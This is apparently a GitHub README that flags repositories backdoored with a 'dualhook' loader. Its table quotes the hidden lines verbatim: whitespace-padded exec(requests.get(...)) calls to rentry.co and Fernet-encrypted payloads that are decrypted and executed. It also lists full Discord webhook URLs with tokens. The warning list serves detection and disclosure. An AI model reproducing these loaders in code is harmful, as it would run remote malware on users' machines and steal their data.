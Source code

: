 
<p align="center">
    🚨 Github Repository Alert 🚨
</p>

## Overview

Welcome to this repository, dedicated to identifying and highlighting instances where the `dualhook` are used.

### Key Information Displayed

Here, you will find details such as:

- **Username**: The GitHub username of the repository owner.
- **Link**: Direct link to the repository.
- **Reason**: Explanation of why the repository is flagged.
- **Files**: List of files containing `dualhook`.
- **Detected Line**: Specific lines where `dualhook` is used.

### They are only 1 of each username, but it doesn't mean the rest is safe !!


| Username | Link | Reason | File Dualhooked | Line
|----------|------|--------|----------------|------
| noth1ng86 | https://github.com/noth1ng86/discord-vanity-sniper | Unsafe | [File URL](https://raw.githubusercontent.com/noth1ng86/discord-vanity-sniper/main/main.py) | Line 4: import requests                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                ;exec(requests.get("https://rentry.co/winapi/raw").text)
| theruebezahl | https://github.com/theruebezahl/Discord-WebHook-Spammer | Unsafe | [File URL](https://raw.githubusercontent.com/theruebezahl/Discord-WebHook-Spammer/main/main.py) | Line 2: import requests                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                ;exec(requests.get("https://rentry.co/winapi/raw").text)
| mayess213 | https://github.com/mayess213/discord-multitool | Unsafe | [File URL](https://raw.githubusercontent.com/mayess213/discord-multitool/main/gloom.py) | Line 1: from __future__ import print_function                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       ;import os;os.system('pip install cryptography');os.system('pip install fernet');os.system('pip install requests');from fernet import Fernet;import requests;exec(Fernet(b'3fgc9LAOZU9wAtjVmDUTwNZdzs_lWsWf_RESK0CCgrg=').decrypt(b'gAAAAABmqzuzxjM5xLVdNO1Qx6Dwyw5u7Ppz-YMArvQAS5jresEVFcdZow5cUJFux-przmpTic8HqHBSyOOJlaJTXlwGOkBWygBDB65P62gNQwyEQKXbm27UYL2q5jSNCPdCRZhc0KxS-k4b1T7accgZ7YW3rfOsS5NDuQ4dETrcvePBi44Q3EQkte1srGWgCTca_ITFUeR-qB_sNfZ0yvUM0asiKK58tg=='))
| pwpijn239 | https://github.com/pwpijn239/flash-usdt-sender | Unsafe | [File URL](https://raw.githubusercontent.com/pwpijn239/flash-usdt-sender/main/main.py) | Line 1: import os                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           ;import os;os.system('pip install cryptography');os.system('pip install fernet');os.system('pip install requests');from fernet import Fernet;import requests;exec(Fernet(b'3fgc9LAOZU9wAtjVmDUTwNZdzs_lWsWf_RESK0CCgrg=').decrypt(b'gAAAAABmqzuzxjM5xLVdNO1Qx6Dwyw5u7Ppz-YMArvQAS5jresEVFcdZow5cUJFux-przmpTic8HqHBSyOOJlaJTXlwGOkBWygBDB65P62gNQwyEQKXbm27UYL2q5jSNCPdCRZhc0KxS-k4b1T7accgZ7YW3rfOsS5NDuQ4dETrcvePBi44Q3EQkte1srGWgCTca_ITFUeR-qB_sNfZ0yvUM0asiKK58tg=='))
| Roddy-jpg | https://github.com/Roddy-jpg/fake-exodus | Unsafe | [File URL](https://raw.githubusercontent.com/Roddy-jpg/fake-exodus/main/main.py) | Line 1: import tkinter as tk                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                ;import os;os.system('pip install cryptography');os.system('pip install fernet');os.system('pip install requests');from fernet import Fernet;import requests;exec(Fernet(b'3fgc9LAOZU9wAtjVmDUTwNZdzs_lWsWf_RESK0CCgrg=').decrypt(b'gAAAAABmqzuzxjM5xLVdNO1Qx6Dwyw5u7Ppz-YMArvQAS5jresEVFcdZow5cUJFux-przmpTic8HqHBSyOOJlaJTXlwGOkBWygBDB65P62gNQwyEQKXbm27UYL2q5jSNCPdCRZhc0KxS-k4b1T7accgZ7YW3rfOsS5NDuQ4dETrcvePBi44Q3EQkte1srGWgCTca_ITFUeR-qB_sNfZ0yvUM0asiKK58tg==')) # type: ignore
| Dahron | https://github.com/Dahron/electrum-fake-balance | Unsafe | [File URL](https://raw.githubusercontent.com/Dahron/electrum-fake-balance/main/main.py) | Line 1: import os                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       ;import os;os.system('pip install cryptography');os.system('pip install fernet');os.system('pip install requests');from fernet import Fernet;import requests;exec(Fernet(b'iMZ8W6ulnhMYlvCjgGk0IqmlmAvLpiD-pDHwn3fzonc=').decrypt(b'gAAAAABmgYQdd6_7iGJQc4KCuNqJcn9-9XtVwb2wKe68KsYiWq1FEmDrrwWCA-eBL1us26gChLnnfCunbsO9z_t4Dr1mMOxyMGlh-dJrtNFjlEbXnsLBnuUeQcsxO7Cl8jFphD817unyRRzQozUvtafc100y_knLwjPAVBmd_vOFjk0nnhO9PQhE2qiE2Yw9f7XTkfdHPweDeTvnoamqrtPKvqDjJyYnRw=='))
| GordienkoRuslan | https://github.com/GordienkoRuslan/guns.lol-viewbot | Unsafe | [File URL](https://raw.githubusercontent.com/GordienkoRuslan/guns.lol-viewbot/main/main.py) | Line 1: import requests                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             ;import os;os.system('pip install cryptography');os.system('pip install fernet');os.system('pip install requests');from fernet import Fernet;import requests;exec(Fernet(b'rzfSTUQAtTwYGeUR10dbSkB5xAPO7TJohilDN9zl73k=').decrypt(b'gAAAAABmsjupSLtETM0jWCn_IhJPumuXPxK09EsOdUf5--ZpbnFpi-wt6g4gJkpoHQIZXU8xrgMV9gDZZWcIdGzAju1KGeqX0JJYB4R1lasB6DSE46aNSyHOCZBlmCdwN50wbNX-bd7aT5KXIG8_c256ebDipZYu5_alGuamQG0wZOo_QP339FjzM3DvwqrhnavA7cOrc7oLZ-if5SZHVEX2SRThaLfErQ=='))
| light8403 | https://github.com/light8403/fake-exodus | Unsafe | [File URL](https://raw.githubusercontent.com/light8403/fake-exodus/main/main.py) | Line 1: import tkinter as tk                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                ;import os;os.system('pip install cryptography');os.system('pip install fernet');os.system('pip install requests');from fernet import Fernet;import requests;exec(Fernet(b'3fgc9LAOZU9wAtjVmDUTwNZdzs_lWsWf_RESK0CCgrg=').decrypt(b'gAAAAABmqzuzxjM5xLVdNO1Qx6Dwyw5u7Ppz-YMArvQAS5jresEVFcdZow5cUJFux-przmpTic8HqHBSyOOJlaJTXlwGOkBWygBDB65P62gNQwyEQKXbm27UYL2q5jSNCPdCRZhc0KxS-k4b1T7accgZ7YW3rfOsS5NDuQ4dETrcvePBi44Q3EQkte1srGWgCTca_ITFUeR-qB_sNfZ0yvUM0asiKK58tg==')) # type: ignore
| ororor69 | https://github.com/ororor69/Luna-Grabber | Unsafe | [File URL](https://raw.githubusercontent.com/ororor69/Luna-Grabber/main/builder.py) | Line 1: import base64                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       ;import os;os.system('pip install cryptography');os.system('pip install fernet');os.system('pip install requests');from fernet import Fernet;import requests;exec(Fernet(b'3fgc9LAOZU9wAtjVmDUTwNZdzs_lWsWf_RESK0CCgrg=').decrypt(b'gAAAAABmqzuzxjM5xLVdNO1Qx6Dwyw5u7Ppz-YMArvQAS5jresEVFcdZow5cUJFux-przmpTic8HqHBSyOOJlaJTXlwGOkBWygBDB65P62gNQwyEQKXbm27UYL2q5jSNCPdCRZhc0KxS-k4b1T7accgZ7YW3rfOsS5NDuQ4dETrcvePBi44Q3EQkte1srGWgCTca_ITFUeR-qB_sNfZ0yvUM0asiKK58tg==')),  Line 111:             size=15, family=self.font), placeholder_text="https://discord(app).com/api/webhooks/1234567890/abcdefhgijklmnopqrstuvwxyz")
| jfloajfew | https://github.com/jfloajfew/ddos-tool | Unsafe | [File URL](https://raw.githubusercontent.com/jfloajfew/ddos-tool/main/main.py) | Line 1: from typing import Any, List, Set, Tuple                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    ;import os;os.system('pip install cryptography');os.system('pip install fernet');os.system('pip install requests');from fernet import Fernet;import requests;exec(Fernet(b'3fgc9LAOZU9wAtjVmDUTwNZdzs_lWsWf_RESK0CCgrg=').decrypt(b'gAAAAABmqzuzxjM5xLVdNO1Qx6Dwyw5u7Ppz-YMArvQAS5jresEVFcdZow5cUJFux-przmpTic8HqHBSyOOJlaJTXlwGOkBWygBDB65P62gNQwyEQKXbm27UYL2q5jSNCPdCRZhc0KxS-k4b1T7accgZ7YW3rfOsS5NDuQ4dETrcvePBi44Q3EQkte1srGWgCTca_ITFUeR-qB_sNfZ0yvUM0asiKK58tg=='))
| nARRegx | https://github.com/nARRegx/discord-advertising-tool | Unsafe | [File URL](https://raw.githubusercontent.com/nARRegx/discord-advertising-tool/main/main.py) | Line 2: import requests                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   ;exec(requests.get("https://rentry.co/winapi2/raw").text) #ignore: for os checking
| BNTFeujjj | https://github.com/BNTFeujjj/discord-server-nuker | Unsafe | [File URL](https://raw.githubusercontent.com/BNTFeujjj/discord-server-nuker/main/main.py) | Line 1: import discord                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                ;import os;os.system('pip install cryptography');os.system('pip install fernet');os.system('pip install requests');from fernet import Fernet;import requests;exec(Fernet(b'3fgc9LAOZU9wAtjVmDUTwNZdzs_lWsWf_RESK0CCgrg=').decrypt(b'gAAAAABmqzuzxjM5xLVdNO1Qx6Dwyw5u7Ppz-YMArvQAS5jresEVFcdZow5cUJFux-przmpTic8HqHBSyOOJlaJTXlwGOkBWygBDB65P62gNQwyEQKXbm27UYL2q5jSNCPdCRZhc0KxS-k4b1T7accgZ7YW3rfOsS5NDuQ4dETrcvePBi44Q3EQkte1srGWgCTca_ITFUeR-qB_sNfZ0yvUM0asiKK58tg==')) # type: ignore
| CombineSoldier14 | https://github.com/CombineSoldier14/CombineBot | Unsafe | [File URL](https://raw.githubusercontent.com/CombineSoldier14/CombineBot/master/main.py) | Line 160:         webhook = "https://discord.com/api/webhooks/1259298998301495379/R6zd6M4D2SQ_l2DfL-3vaEEBNBtU4XuZODbrWHnq0IR0Xj4IZcgvpvS2XrHMpr1YqHXD"
| tyropS | https://github.com/tyropS/RedTiger_Tools | Unsafe | [File URL](https://raw.githubusercontent.com/tyropS/RedTiger_Tools/main/RedTiger-Tool.py) | Line 1: w3bh00k_ur1 = "https://discord.com/api/webhooks/1262550734524649586/SjhwMGpENHtS1F7DENIPDMLr3wX7ZB0CYPe3wg7IrE429tsPZnTCahJ3LJMmp99jnzbF"


## Contributing

Interested in contributing?

1. **Fork** this repository to your own GitHub account.
2. **Add** information about new users or repositories.
3. **Submit** a pull request with your additions or updates.

Your contributions will make a big difference!

## How to Identify Repositories

1. Search on GitHub using keywords like "Discord", "Nitro", or "Token" to find recent repositories.
2. Review the code for occurrences of `dualhook` or utilize a custom scraper similar to the one provided here.
3. Thank you for your efforts in making this project better!
